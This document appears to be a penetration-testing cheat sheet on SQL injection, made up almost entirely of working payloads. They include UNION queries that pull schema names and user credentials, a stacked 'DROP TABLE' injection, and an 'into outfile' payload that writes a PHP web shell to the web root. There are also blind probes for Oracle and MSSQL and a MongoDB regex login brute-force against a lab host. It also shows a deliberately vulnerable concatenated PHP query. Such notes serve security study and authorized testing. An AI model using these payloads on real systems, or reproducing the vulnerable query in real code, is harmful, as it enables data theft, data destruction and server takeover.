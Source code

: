 # SQL Injection

[HOME](../index.html) / [Web](./)

## The basics

How an example of unsecure sql statement looks like:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + $_POST["username"] + ' AND ' + $_POST['password']'";
```

To break the statement:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + 1' OR 1+1-- + ' AND ' + $_POST['password']'";
```

Order by:

```
=1 order by 1
=1 order by 2
=1 order by 3
.
.
.
Until error occurs, then:
=1 union all select 1, 2, 3...
=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
=1 union all select 1, username, password from users

' union select 1,2,3,concat(schema_name, ':') from information_schema.schemata-- -    # db name
' union select 1,2,3,concat(table_name, ':') from information_schema.tables where table_schema = '[DB_NAME]'-- -   # table name
' union select 1,2,3,concat(column_name, ':') from information_schema.columns where table_name = '[TABLE_NAME]'-- -   # column name
' union select 1,2,3,concat(id, ':', name, ':', email, ':', password) from user-- -   # column content
```

### Simple SQL injection test

```
'
1' OR 1+1--
\'
```

### Stacked injection; Where table name is known

```
1'; DROP TABLE {tablename} --
```

### Where column name is known

```
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

\\

## Blind injection

Apply in URL

```
www.example.com/xxx.php?id=1 or 1=1
```

## RCE with UNION

```
123' UNION SELECT '<?php echo system("ls -la /");?>','2','3','4','5' into outfile '/var/www/html/shell.php'#
```

## Oracle DB

```
' UNION SELECT table_name,null,null FROM all_tables--
' UNION SELECT  column_name,null,null FROM all_tab_columns WHERE table_name=''--
' UNION SELECT [col1],[col2],null FROM [table]--
' AND (SELECT COUNT(global_name) FROM global_name)=19 AND 'AdhT'='AdhT    # number of rows
' AND (SELECT LENGTH(global_name) FROM global_name)=8 AND 'AdhT'='AdhT    # word count
' AND SUBSTRC((SELECT global_name FROM global_name),1,1)=65 AND 'AdhT'='AdhT    # Ascii decode
```

## Microsoft SQL Server

```
' OR LEN(CURRENT_USER)='3
' OR SUBSTRING(CURRENT_USER,1,3)='DBO
' OR LEN(db_name())=13;--
' OR SUBSTRING(db_name(),1,5)='xxxxx';--
'*cast((SELECT @@version) as int)*'
```

## NodeJS / MongoDB

```
POST /login HTTP/1.1
Host: 10.10.11.139:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 43
Origin: http://10.10.11.139:5000
Connection: close
Referer: http://10.10.11.139:5000/login
Upgrade-Insecure-Requests: 1

{"user":"admin","password":{"$regex":"^A"}}    # bruteforce password start with A
```
